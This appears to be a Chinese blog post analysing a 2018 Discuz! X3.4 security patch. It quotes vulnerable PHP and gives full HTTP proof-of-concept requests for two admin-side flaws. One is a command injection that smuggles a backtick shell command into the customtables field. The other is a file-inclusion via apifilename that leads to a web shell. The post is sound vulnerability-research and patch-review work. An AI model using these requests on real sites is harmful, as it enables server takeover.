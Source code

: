 # discuz3.4补丁更新分析

* 5月29日discuz3.4源码提交了一次更新[https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14](https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14)，其中修复了一个后台任意文件包含漏洞和一个后台命令执行隐患。
下面从代码分析漏洞：

1.后台命令执行隐患(不具备利用条件)
----
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/命令执行1.jpg)
如图所示，问题出在后台数据库备份功能，增加了escapeshellarg()函数来过滤 $tablesstr参数。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/数据库备份.jpg)
/discuz3.4/upload/source/admincp/admincp_db.php
```php
if($operation == 'export') {

    $_SERVER['REQUEST_METHOD'] = 'POST';
    if(!submitcheck('exportsubmit')) {

        #省略

    }
    else {

        DB::query('SET SQL_QUOTE_SHOW_CREATE=0', 'SILENT');

        if(!$_GET['filename'] || !preg_match('/^[\w\_]+$/', $_GET['filename'])) {
            cpmsg('database_export_filename_invalid', '', 'error');
        }

        $time = dgmdate(TIMESTAMP);
        if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') {
            $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
        } elseif($_GET['type'] == 'custom') {
            $tables = array();
            if(empty($_GET['setup'])) {
                $tables = C::t('common_setting')->fetch('custombackup', true);
            } else {
                C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
                $tables = & $_GET['customtables'];####输入可控点
            }
            if( !is_array($tables) || empty($tables)) {
                cpmsg('database_export_custom_invalid', '', 'error');
            }
        }

        #省略

        if($_GET['method'] == 'multivol') {
            #省略
        }
        else {
            $tablesstr = '';
            foreach($tables as $table) {
                $tablesstr .= '"'.$table.'" ';
            }

            require DISCUZ_ROOT . './config/config_global.php';
            list($dbhost, $dbport) = explode(':', $dbhost);
            $query = DB::query("SHOW VARIABLES LIKE 'basedir'");
            list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);

            $dumpfile = addslashes(dirname(dirname(__FILE__))).'/'.$backupfilename.'.sql';
            @unlink($dumpfile);

            $mysqlbin = $mysql_base == '/' ? '' : addslashes($mysql_base).'bin/';

            @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);
```
$_GET['customtables'] >> $tables >> $tablesstr 
参数没有经过过滤、转义直接拼接到shell_exec中可被利用命令执行

利用构造POC：
```
POST /discuz3.4/upload/admin.php?action=db&operation=export&setup=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz-3.4/upload/admin.php?action=db&operation=export
Content-Type: application/x-www-form-urlencoded
Content-Length: 201
Cookie:  略
Connection: close
Upgrade-Insecure-Requests: 1

formhash=40d81b28&scrolltop=&anchor=&type=custom&customtables%5B%5D=`touch /tmp/1.txt`&method=test&sizelimit=2048&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=180608_gJjGo26K&exportsubmit=%E6%8F%90%E4%BA%A4
```
几个注意点：
/discuz3.4/upload/source/class/discuz/discuz_application.php 248
```php 
if($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST)) {
    $_GET = array_merge($_GET, $_POST);#合并键值，用post覆盖get
}
```
* $_GET包含了$_POST的值
* method不能为multivol

然而上面的命令并不能执行成功，当时我有点无语，因为下面的代码有问题，这块功能代码居然是不能用的。
```php
list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);
#DB::$drivertype不存在,根据代码意思应该是$db->drivertype或者DB::$db->drivertype
```
漏洞代码运行到这里的时候会运行不下去，因为DB::$drivertype这个参数根本没定义。
在/discuz3.4/upload/source/class/discuz/discuz_database.php里class discuz_database {} 不存在$drivertype。
为了复现漏洞，我在/discuz3.4/upload/source/class/discuz/discuz_database.php 添加了public static $drivertype;，然后再使用上面的POC成功执行了命令。

2.后台任意文件包含漏洞(ucenter应用管理权限)
----
漏洞存在多处，但是原因都是一样的，就是$apifilename参数未做过滤或转义导致任意文件包含，我选择其中一处分析。
/discuz3.4/upload/uc_server/model/note.php
```php
$apifilename = isset($app['apifilename']) && $app['apifilename'] ? $app['apifilename'] : 'uc.php';
        if($app['extra']['apppath'] &&  @include_once $app['extra']['apppath'].'./api/'.$apifilename) {
```
分析下$apifilename的值从哪里来

/discuz3.4/upload/uc_server/data/cache/apps.php >> /discuz3.4/upload/uc_server/model/base.php init_cache() >> $this->base->cache('apps') >> $app['apifilename']

apps.php的值如下图所示
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/apps.php.jpg)
可通过ucenter的应用管理进行控制
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-192102.jpg)
POC：
```php
POST /discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1&sid=bdb72eMi%2BnWQ0q9oCK46R%2BA80gB%2BQ4ZRCIiuPWiNu2FCVNQbKb%2F2FtI4XRDYgsU9VvGBY07LF2exdg
Content-Type: application/x-www-form-urlencoded
Content-Length: 405
Cookie: 略
Connection: close
Upgrade-Insecure-Requests: 1

sid=87c1Zk21dOZPwMBkwqz%2BmgKKVA%2FrhGZKGqu1CWAP63EzBMLJWaCtv9K1DPs%2B61zf7vEER6usLasOpQ&formhash=c98254e0423cf9af&type=DISCUZX&name=Discuz%21+Board&url=http%3A%2F%2Flocalhost%2Fdiscuz-3.4%2Fupload&extraurl=&ip=&authkey=SfU517M8n8u1scR1T255Gea6G909L2l338E6seAdP7xei3U0yag9J3gfm6iey66b&apppath=..%2F&viewprourl=&apifilename=../phpinfo.txt&tagtemplates=&tagfields=&synlogin=1&recvnote=1&submit=+%E6%8F%90+%E4%BA%A4+
```
* apppath=..%2F 如果不知道绝对路径，输入../会自动生成,这里只能填存在的路径且和./api/uc.php拼接文件存在，discuz3.4/upload/uc_server/control/admin/app.php的157行
* 伪协议也不能用，discuz3.4/upload/uc_server/control/admin/app.php的155行realpath()函数过滤。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/绝对路径.jpg)
* apifilename= 可以是上传的图片(不能是经过GB库处理的)、附件等，填入相对路径(discuz
前台不会返回上传文件路径，必须通过admin后台上传),这里phpinfo.txt是我创建在web根目录的测试文件。
* 更新的修复代码也很自信，apifilename参数限制了只能为php后缀的文件，我认为修复的不够保险，可以写死为uc.php。

POC的包发完以后，访问登陆页面、ucenter首页等多处都包含了指定的文件，达到getshell的目的。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-191327.jpg)
